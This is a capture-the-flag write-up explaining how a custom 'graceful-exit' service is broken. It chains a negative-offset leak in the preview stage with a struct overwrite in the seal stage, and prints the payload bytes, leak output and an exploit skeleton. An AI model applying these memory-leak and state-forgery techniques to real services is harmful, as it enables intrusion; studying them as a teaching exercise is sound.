

# Graceful Exit — Anti-Slop CTF 2026 Write-up
 
## Challenge Description

> Some jobs leave cleanly. Others need help finding the door.   
> `nc 178.105.199.41 20001`

Service banner:

```text
$ nc 178.105.199.41 20001
graceful-exit forge
stages: hello load preview audit drop seal run fetch
capsule: GFC2 v2 with sections, varints, and 8-byte tape ops
```

---
## Concept Map



---

## 1. TL;DR

This challenge is a **state-machine + parser abuse** problem, not a classic shellcode/ROP pwn.

The intended workflow looks like this:

```text
hello -> load -> preview -> audit -> drop -> seal -> run -> fetch
```

The real solve abuses **two bugs**:

1. **`preview` out-of-bounds read** via a negative relative offset in the `VIEW` section.  
   This leaks:
   - the fetch cookie,
   - an encoded flag pointer,
   - the random mask used to encode it,
   - the flag length.

2. **`seal` plan overwrite** via a symbolic-summary copy from `LITR` into the start of the internal plan structure.  
   This lets us forge a finished plan whose output points directly to the flag.

So instead of executing the VM and producing a legitimate report, we:

- leak all sensitive fetch metadata with `preview`,
- overwrite the sealed plan with attacker-controlled bytes,
- call `fetch(cookie)`,
- get the flag.

---

## 2. What data/file we have and what is special

The archive contains:

```text
dist/
├── graceful_exit
└── sample.gfc
```

### `graceful_exit`

- 64-bit ELF
- PIE
- dynamically linked
- stripped
- network service
- uses a custom framed protocol and a custom capsule format

So the challenge is mostly about **reverse engineering a proprietary format and workflow**.

### `sample.gfc`

This is important because it gives a valid example of the capsule format advertised by the banner:

```text
capsule: GFC2 v2 with sections, varints, and 8-byte tape ops
```

From reversing the parser and comparing it with the sample, the capsule format contains these sections:

| Section | Purpose |
|---|---|
| `LITR` | Literal bytes / blob storage |
| `CODE` | 8-byte tape or VM instructions |
| `SYMS` | Symbol metadata |
| `FIXS` | Fixup metadata |
| `VIEW` | Preview program / directives |

The sample capsule is not directly exploitable, but it is useful for learning the structure, section ordering, and checksum expectations.

### The service protocol is not line-based

Even though the banner is text, the actual service uses a **binary frame protocol**.

The frames look like this:

```c
struct frame {
    char     magic[4];    // "GORF"
    uint16_t op;          // command / stage opcode
    uint16_t reserved;
    uint32_t length;      // payload length
    uint32_t crc;         // custom checksum
    uint8_t  payload[length];
};
```

Important stage opcodes used by the exploit:

| Opcode | Stage |
|---:|---|
| `1` | `hello` |
| `2` | `load` |
| `3` | `preview` |
| `4` | `audit` |
| `6` | `seal` |
| `8` | `fetch` |

The `hello` response gives a session-specific `nonce`, and that `nonce` becomes the checksum seed for later frames.

So before exploitation even begins, we need to reverse:

- the binary framing,
- the CRC/checksum,
- the `GFC2` capsule format,
- the service state machine.

---

## 3. Problem Analysis (in details)

### 3.1 State-machine thinking

The banner is the first major clue:

```text
stages: hello load preview audit drop seal run fetch
```

That strongly suggests the program keeps internal state across commands. The flag is probably not directly returned unless the service believes a job was properly prepared, sealed, executed, and finalized.

A normal path would be:

```text
hello
load valid capsule
audit
seal
run
fetch correct_cookie
```

So `fetch` is probably protected by at least two conditions:

1. You need the correct **cookie**.
2. You need a **finished plan/report**.

That is exactly what the final exploit targets.

---

### 3.2 Reverse-engineering the capsule format

The parser expects a `GFC2` header, a table of contents, then section bodies. The exploit builder can be summarized like this:

```python
def build_gfc(litr, code, syms, fixs, view):
    # build GFC2 header
    # build section table
    # append section data
    # compute toc/body hashes
    return capsule
```

A few details matter:

- `CODE` entries are 8 bytes each.
- `SYMS` and `FIXS` are varint-encoded.
- `VIEW` is interpreted by the preview stage.
- `LITR` later becomes dangerous during `seal`.

For the exploit, the VM itself is almost irrelevant. We only need a capsule that is **structurally valid** enough to pass parsing and survive until the vulnerable logic executes.

---

### 3.3 Bug #1: `preview` allows a negative relative copy

The first bug is in the `preview` stage.

The malicious `VIEW` payload is:

```python
view = b"\x11" + sleb(-32) + uleb(32) + b"\x00"
```

Conceptually, that means:

```text
copy 32 bytes starting at preview_output_base - 32
```

The key problem is that the preview logic accepts a **signed negative relative offset**, so it reads data **before** the intended preview buffer.

That leaked data is parsed as four little-endian `uint64_t` values:

```text
rand
encoded_flag_ptr
fetch_cookie
flag_len_and_sid
```

The flag pointer is not leaked directly. It is encoded with a simple XOR scheme. From the binary/solver logic:

```python
CONST = int.from_bytes(b"rog_dees", "little")
flag_ptr = rand ^ encoded_flag_ptr ^ CONST
flag_len = flag_len_and_sid & 0xffffffff
leak_sid = flag_len_and_sid >> 32
```

So the preview bug gives us everything we need to later call `fetch` successfully.

Example real leak:

```text
[+] nonce=0x38f61f69 sid=0xe7a78767
[+] cookie=0xb0dd97b04e34becc
[+] flag_ptr=0x000077fe278e6000 flag_len=45 leak_sid=0xe7a78767
```

At this point, the challenge is already half solved:

- we know the **cookie**,
- we know the **flag address**,
- we know the **flag length**.

But we still need the service to believe a report/plan is complete.

---

### 3.4 Bug #2: `seal` overwrites the internal plan from `LITR`

The second bug is the real state corruption primitive.

During `seal`, the service initializes a plan structure and then copies a **symbolic summary** into it. The bug is that the copy source is attacker-controlled `LITR`, and the destination starts at the **base of the plan struct**.

In simplified pseudocode, it behaves like this:

```c
struct plan p;

init_plan(&p);

// Intended: attach some symbolic summary to the plan.
// Actual: copy attacker-controlled bytes into the start of p.
memcpy(&p, capsule->litr + sym_offset, sym_size);
```

If we make `sym_size` large enough, we overwrite the trusted fields that `fetch` later checks.

The exploit uses a single `0x80`-byte fake plan buffer inside `LITR`:

```python
fake = bytearray(0x80)
fake[0x30:0x38] = struct.pack("<Q", cookie)
fake[0x38:0x40] = struct.pack("<Q", flag_ptr)
fake[0x40:0x44] = struct.pack("<I", flag_len)
fake[0x7c] = 1
```

That corresponds to:

| Offset | Meaning | Value we write |
|---:|---|---|
| `0x30` | fetch cookie | leaked `cookie` |
| `0x38` | result/report pointer | decoded `flag_ptr` |
| `0x40` | result/report length | leaked `flag_len` |
| `0x7c` | finished flag | `1` |

This is the core trick.

After `seal`, the service believes:

- the plan is finished,
- the caller knows the right cookie,
- the report pointer is valid,
- the report length is valid.

Except the report is actually the flag buffer.

---

### 3.5 Why `run` is unnecessary

The binary advertises a tape/VM system, which is meant to distract you into thinking you need to produce a valid computation.

But once the plan structure is forged, `fetch` no longer cares how that state was reached. It only checks the state fields.

So the final exploitation path is:

```text
hello
load leak capsule
preview
load forged capsule
audit
seal
fetch(cookie)
```

No real VM execution is required.

That is why this challenge is more of a **workflow corruption** problem than a traditional code-exec problem.

---

## 4. Exploitation Walkthrough / Flag Recovery

### Step 1 — Start the session with `hello`

Send a framed `hello` request using the initial fixed seed.

The response contains:

- a session nonce,
- a session ID.

Observed output:

```text
[+] nonce=0x38f61f69 sid=0xe7a78767
```

The `nonce` is then used to authenticate the rest of the frames.

---

### Step 2 — Load the leak capsule and call `preview`

The first capsule is minimal, but its `VIEW` section contains the negative-offset copy primitive.

Flow:

```text
hello
load leak capsule
preview
```

Observed output:

```text
[+] cookie=0xb0dd97b04e34becc
[+] flag_ptr=0x000077fe278e6000 flag_len=45 leak_sid=0xe7a78767
```

Now we know exactly where the flag is and how to satisfy `fetch`.

---

### Step 3 — Build the forged capsule

The second capsule places a fake plan image in `LITR` and makes the symbolic summary span `0x80` bytes so that `seal` copies the whole thing onto the internal plan object.

Relevant fields written into the fake plan:

```text
plan+0x30 = cookie
plan+0x38 = flag_ptr
plan+0x40 = flag_len
plan+0x7c = 1
```

We also keep `CODE`, `SYMS`, and `FIXS` structurally valid so the capsule is accepted.

---

### Step 4 — Load, audit, and seal

Flow:

```text
load forged capsule
audit
seal
```

Observed output:

```text
[+] forge capsule loaded
[+] audit started
[+] plan sealed
```

A practical detail: `audit` is asynchronous, so a solver usually polls `seal` until the service stops replying with things like `audit busy` or `capsule not approved`.

Once `seal` succeeds, the internal plan has already been overwritten.

---

### Step 5 — Call `fetch(cookie)`

At this point the service sees a valid finished plan. `fetch` only needs the right cookie.

So we send the leaked cookie and receive the flag.

Successful run:

```text
graceful-exit forge
stages: hello load preview audit drop seal run fetch
capsule: GFC2 v2 with sections, varints, and 8-byte tape ops
[+] nonce=0x38f61f69 sid=0xe7a78767
[+] cookie=0xb0dd97b04e34becc
[+] flag_ptr=0x000077fe278e6000 flag_len=45 leak_sid=0xe7a78767
[+] forge capsule loaded
[+] audit started
[+] plan sealed
slopped{previewed_offsets_can_reseal_reports}
```

---

## 5. What We Learned

### 1. Debug/preview features are attack surface

The `preview` stage was supposed to be a harmless helper. Instead, it became an arbitrary relative leak primitive.

### 2. State corruption can be enough without code execution

We never needed shellcode, ROP, GOT overwrite, or syscall-oriented abuse. We only needed to corrupt the trusted plan state.

### 3. “Encoded pointers” are useless if you leak both the mask and the encoded value

The service hid the flag pointer behind XOR obfuscation, but `preview` leaked both the random value and the encoded pointer, so decoding was trivial.

### 4. Seal/finalize steps must not copy attacker data into trusted objects

The entire challenge collapses because `seal` copies a symbolic summary into the base of the internal plan object.

### 5. The advertised VM was mostly a decoy

The banner mentions “8-byte tape ops”, which encourages deep VM reversing. That helps understand the format, but the actual solve does not require meaningful VM execution at all.

---

## Minimal Exploit Skeleton

```python
# hello
nonce, sid = hello()

# preview leak
load(make_leak_capsule())
leak = preview()
rand, encoded_ptr, cookie, flag_len_sid = unpack("<QQQQ", leak)
flag_ptr = rand ^ encoded_ptr ^ int.from_bytes(b"rog_dees", "little")
flag_len = flag_len_sid & 0xffffffff

# forge fake plan in LITR
fake = bytearray(0x80)
fake[0x30:0x38] = p64(cookie)
fake[0x38:0x40] = p64(flag_ptr)
fake[0x40:0x44] = p32(flag_len)
fake[0x7c] = 1

load(make_plan_forge_capsule(fake))
audit()
poll_until_seal_succeeds()

flag = fetch(cookie)
print(flag)
```
